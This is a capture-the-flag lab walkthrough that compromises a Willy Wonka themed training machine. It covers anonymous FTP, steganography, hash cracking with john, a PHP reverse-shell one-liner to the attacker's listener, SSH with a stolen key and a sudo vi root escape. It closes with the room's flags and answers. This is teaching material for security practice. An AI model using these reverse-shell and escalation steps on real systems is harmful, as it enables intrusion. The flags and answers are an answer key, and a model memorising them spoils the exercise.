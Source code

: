 ```yaml
---
A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!
---
```

### rustscan

> found port 21 ftp, port 22 ssh, port 80 http and more

### ftp

```anonymous
ftp 10.10.10.71
```

>Connected to 10.10.10.71.
220 (vsFTPd 3.0.3)
Name (10.10.10.71:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21456|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
229 Entering Extended Passive Mode (|||52109|)
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
100% |**************************************|   203 KiB  115.47 KiB/s    00:00 ETA
226 Transfer complete.
208838 bytes received in 00:02 (95.84 KiB/s)
ftp> exit
221 Goodbye.

### steghide

```blank
steghide extract -sf gum_room.jpg 
```

```
cat b64.txt | base64 -d
```

>daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::

### john

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=sha512crypt
```
==cn7824           (charlie) ==
### gobuster

```
gobuster dir --url http://10.10.10.71 -w /usr/share/wordlists/dirb/common.txt -t 60 -k -x py,html,txt,php,tar,zip,old,bak
```

> /home.php             (Status: 200) [Size: 569]

>we got command injection on this page

```
php -r '$sock=fsockopen("10.18.1.00",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

`kali machine`

```
rlwrap nc -nlvp 4444
```
```
script -qc /bin/bash /dev/null
```
```
strings key_rev_key
```
>Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe

```
cat validate.php
```
`if($uname=="charlie" && $password=="cn7824")`

```
cat teleport
```

> copy id_rsa to kali machine

```
nano charlie_key
```
```
chmod 600 charlie_key
```

### ssh

```
ssh -i charlie_key charlie@10.10.10.71 
```

```
cat /home/charlie/user.txt
```

### priv esc

```
sudo -l
```

==(ALL : !root) NOPASSWD: /usr/bin/vi==

```gtfobins
sudo vi -c ':!/bin/sh' /dev/null
```

```
cd /root
```

```key
python root.py
```

`enter key found`

>print(mess)# python root.py
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
__   __               _               _   _                 _____ _          



- Enter the key you found!*b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='*
- What is Charlie's password?*cn7824*
- change user to charlie *No answer needed*
- Enter the user flag*flag{cd5509042371b34e4826e4838b522d2e}*
- Enter the root flag*flag{cec59161d338fef787fcb4e296b42124}*





